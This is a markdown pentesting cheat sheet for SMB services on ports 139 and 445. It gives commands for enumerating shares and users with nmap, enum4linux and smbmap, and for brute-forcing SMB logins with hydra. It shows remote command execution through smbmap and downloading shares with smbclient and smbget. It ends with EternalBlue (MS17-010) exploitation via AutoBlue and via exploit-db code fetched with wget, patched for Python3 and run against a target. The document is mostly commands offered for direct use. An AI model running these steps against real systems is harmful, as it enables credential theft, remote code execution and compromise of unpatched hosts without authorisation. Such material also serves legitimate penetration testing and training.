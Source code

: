 ```yaml
---
title: Server Message Block (SMB) Pentesting
desc: Default port is 139, 445.
tags: [139, 445, Active Directory, EternalBlue, Nmap, Samba, SMB, Windows]
alts: []
render_with_liquid: false
---
```


## 1. Enumeration

1. **Use Nmap**

    ```sh
    nmap --script smb-brute -p 445 <target-ip>
    nmap --script smb-enum-shares.nse,smb-enum-users.nse -p 445 <target-ip>
    nmap --script smb-enum* -p 445 <target-ip>
    nmap --script smb-protocols -p 445 <target-ip>
    nmap --script smb-vuln* -p 445 <target-ip>
    ```

2. **Use Enum4linux**

    ```sh
    # Basic
    enum4linux 10.0.0.1

    # All enumeration
    enum4linux -a 10.0.0.1

    # Verbose
    enum4linux -v 10.0.0.1

    # Specify username and password
    enum4linux -u username -p password 10.0.0.1
    ```

3. **Use Smbmap**

    ```sh
    smbmap -H <target-ip>

    # Recursive
    smbmap -H <target-ip> -R

    # Username and password
    smbmap -u username -p password -H <target-ip>

    # Execute a command
    smbmap -u username -p password -H <target-ip> -x 'ipconfig'
    ```

3. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> smb
    hydra -L usernames.txt -p password <target-ip> smb
    ```

<br />

## 2. Connect

1. **Use Smbclient**

    ```sh
    smbclient -L 10.0.0.1
    smbclient -N -L 10.0.0.1
    smbclient -N -L \\\\10.0.0.1
    smbclient -L 10.0.0.1 -U username

    # Specify shared directory
    smbclient //10.0.0.1/somedir -U username
    # nobody, no-pass
    smbclient //10.0.0.1/somedir -N -U nobody

    # Specify workgroup
    smbclient -L 10.0.0.1 -W WORKGROUP -U username
    ```

    - **Download Shares**

        ```sh
        smbget -R smb://10.0.0.1/somedir -U username

        # Specify workgroup
        smbget -R smb://10.0.0.1/somedir -w WORKGROUP -U username
        ```

<br />

## 3. EternalBlue (MS17-010)

1. **Use AutoBlue**

    **[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010){:target="_blank"}** is an automatic exploit.  
    Download the repository and run the following example command.

    ```sh
    python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
    ```

2. **Manual Exploiting**

    You need to have two files - exploit.py, mysmb.py

    - **Download mysmb.py**

        ```sh
        wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 

        # Convert DOS to UNIX
        dos2unix mysmb.py
        ```

    - **Edit Some Lines of mysmb.py for Python3**

        You need to edit some code because this exploit is old so only supports **Python2**.

        ```sh
        Line.69
        # transData = b''
        transData = ''

        Line.73
        # transData = ('\x00' * padLen) + str(parameters)
        transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)

        Line.80
        # transData += ('\x00' * padLen) + data
        transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)

        Line.231
        # req = str(pkt)
        req = pkt.getData()
        return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

        Line.381
        # data += resp['Data'][1:]
        data += resp['Data'][1:].decode()
        ```

    - **Download exploit.py**

        ```sh
        wget -O exploit.py https://www.exploit-db.com/exploits/42315

        # Convert DOS to UNIX
        dos2unix exploit.py
        ```

    - **Edit the Credentials in exploit.py**

        ```sh

        ...
        username = "username"
        password = "password"
        ...

        ```

    - **Run**

        ```sh
        python exploit.py 10.0.0.1 netlogon
        python exploit.py 10.0.0.1 lsarpc
        python exploit.py 10.0.0.1 samr
        ```